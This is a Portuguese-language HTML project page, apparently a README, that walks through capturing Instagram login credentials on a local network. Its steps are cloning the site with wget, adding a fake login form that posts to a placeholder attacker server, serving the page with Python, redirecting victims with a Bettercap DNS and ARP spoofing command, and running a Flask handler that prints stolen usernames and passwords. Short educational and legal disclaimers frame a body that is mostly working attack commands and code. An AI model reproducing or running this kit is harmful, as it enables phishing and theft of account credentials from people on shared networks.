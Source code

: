 <header>
<h1>Como Criar uma Página Falsa Usando DNS Spoofing e ARP Spoofing</h1>
</header>

<section>
<h2>Descrição</h2>
<p>Este projeto é uma demonstração de como ataques como DNS Spoofing e ARP Spoofing podem ser utilizados para redirecionar o tráfego da vítima para uma página falsa que você controla. Lembre-se, essas técnicas devem ser usadas apenas para fins educativos e em ambientes controlados. Qualquer uso mal-intencionado é ilegal e antiético.</p>
</section>

<section>
<h2>Objetivo</h2>
<p>O objetivo deste projeto é mostrar como um atacante pode redirecionar tráfego de uma rede local para uma página falsa, a qual coleta dados de login sensíveis (por exemplo, credenciais de um site como o Instagram).</p>
</section>

<section>
<h2>Como Funciona</h2>
<h3>DNS Spoofing (Falsificação de DNS)</h3>
<p>O atacante intercepta as consultas DNS e engana a vítima, direcionando o tráfego de um site legítimo (como "instagram.com") para seu próprio servidor.</p>

<h3>ARP Spoofing (Falsificação de ARP)</h3>
<p>Esse ataque manipula a tabela ARP, fazendo com que os pacotes da vítima sejam enviados para o computador do atacante.</p>

<h3>Página Falsa (Phishing)</h3>
<p>O atacante cria uma página que se parece com o site original (por exemplo, o Instagram), mas com a funcionalidade de coletar dados inseridos pela vítima, como nome de usuário e senha.</p>
</section>

<section>
<h2>Como Criar a Página Falsa</h2>

<h3>Passo 1: Baixar o código do site original</h3>
<p>Você pode usar ferramentas como <code>wget</code> ou <code>curl</code> para baixar o código HTML do site original. Isso permite que você tenha uma cópia do site em seu computador.</p>
<pre><code>wget -r -np -k http://instagram.com</code></pre>

<h3>Passo 2: Modificar o código para coletar dados</h3>
<p>Depois de ter o código do site, altere-o para incluir um formulário falso de login. Esse formulário irá coletar as credenciais inseridas pela vítima.</p>
    <pre>
    <code>

        <form action="http://seu-servidor.com/pegar-dados" method="post">
        <input type="text" name="username" placeholder="Usuário">
        <input type="password" name="password" placeholder="Senha">
        <input type="submit" value="Entrar">
        </form>
    </code>
    </pre>

<h3>Passo 3: Servir a página falsa localmente</h3>
<p>Você pode usar Python para criar um servidor local e servir a página falsa. Para isso, basta rodar o seguinte comando:</p>
<pre><code>python3 -m http.server 8080</code></pre>

<h3>Passo 4: Configurar o ataque de DNS e ARP Spoofing</h3>
<p>Agora que você tem a página falsa e o servidor local configurados, é necessário redirecionar o tráfego para o seu computador. Isso pode ser feito usando ferramentas como o Bettercap.</p>
<pre><code>
sudo bettercap -iface wlan0 -eval "set dns.spoof.domains instagram.com.br; set dns.spoof.address 192.168.10.103; dns.spoof on; arp.spoof on"
</code></pre>
<p>Este comando faz com que o tráfego destinado ao "instagram.com.br" seja redirecionado para o seu servidor local (no caso, 192.168.10.103).</p>

<h3>Passo 5: Coletar os dados</h3>
<p>Quando a vítima acessar a página falsa e preencher o formulário de login, os dados serão enviados para o servidor especificado no atributo action do formulário.</p>
<p>Se você estiver usando Flask, você pode configurar um servidor para coletar esses dados:</p>
<pre>
<code>
from flask import Flask, request

app = Flask(__name__)

@app.route('/pegar-dados', methods=['POST'])
def pegar_dados():
    usuario = request.form['username']
    senha = request.form['password']
    print(f"Usuário: {usuario} | Senha: {senha}")
    return "Dados coletados!"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
</code></pre>
</section>

<section>
<h2>Resumo do Processo</h2>
<ol>
<li>A vítima tenta acessar "instagram.com".</li>
<li>O tráfego é redirecionado para o seu servidor local devido ao ataque de DNS Spoofing.</li>
<li>O servidor local serve a página falsa.</li>
<li>A vítima insere as credenciais de login na página falsa.</li>
<li>Os dados coletados são enviados para o seu servidor, permitindo que você capture as informações.</li>
</ol>
</section>

<section>
<h2>Aviso Legal</h2>
<p>Este tipo de atividade é ilegal e antiética. O uso dessas técnicas deve ser restrito a ambientes controlados e com a permissão explícita dos envolvidos, como em laboratórios de segurança e para fins educativos. Realizar ataques como este em redes ou sistemas sem autorização pode resultar em sérias consequências legais.</p>
</section>

